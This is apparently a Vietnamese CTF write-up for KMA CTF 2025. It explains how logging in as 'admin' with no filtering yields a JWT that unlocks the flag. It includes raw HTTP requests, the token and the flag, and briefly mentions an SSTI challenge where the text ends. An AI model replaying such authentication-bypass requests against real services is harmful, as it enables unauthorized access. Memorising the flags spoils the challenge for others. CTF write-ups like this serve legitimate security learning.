 ```yaml
---
title: Writeup KMACTF 2025
published: 2025-09-29
tags: [Writeup]
image: "https://hackmd.io/_uploads/S1goIuvhxg.png"
category: Writeup
---
```


# KMA CTF 2025: 
## YDSYD : 
Bài này server cho user `admin` có `isAdmin : true` sẵn rồi.
![image](https://hackmd.io/_uploads/B1Qq6I8hgx.png)

Ở endpoint `/login` ko có sự filter nào về user `admin`
![image](https://hackmd.io/_uploads/S1maaI82xx.png)
Vậy chỉ cần login vào với user là `admin` là đã có token JWT và get flag thôi.

```HTTP=
POST /login HTTP/2
Host: ydsyd.wargame.vn
Content-Type: application/json
Content-Length: 16

{"user":"admin"}
```
![image](https://hackmd.io/_uploads/SJHa0U8ngg.png)

Và chỉ cần gắn cookie vào, POST tới `annyeong` là đã được flag : 
![image](https://hackmd.io/_uploads/BkSZJP8nle.png)

```HTTP
POST /annyeong HTTP/2
Host: ydsyd.wargame.vn
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJpc0FkbWluIjp0cnVlLCJpYXQiOjE3NTkwNDMyMzAsImV4cCI6MTc1OTA0NjgzMH0.9Aeue-p_znn_7PGm7SOoPDqm1Ryq5Ds2z86GF-UtqJI
Content-Type: application/json
Content-Length: 2

{}
```

![image](https://hackmd.io/_uploads/r1e7yPU3eg.png)
FLAG : `KMACTF{Y1u__50lv3d_Y0u_L1ved??<3}`

## ACL and H1 : 
Challenge này có vuln SSTI ở `/render`
![image](https://hackmd.io/_uploads/rkWsJDL2xg.png)
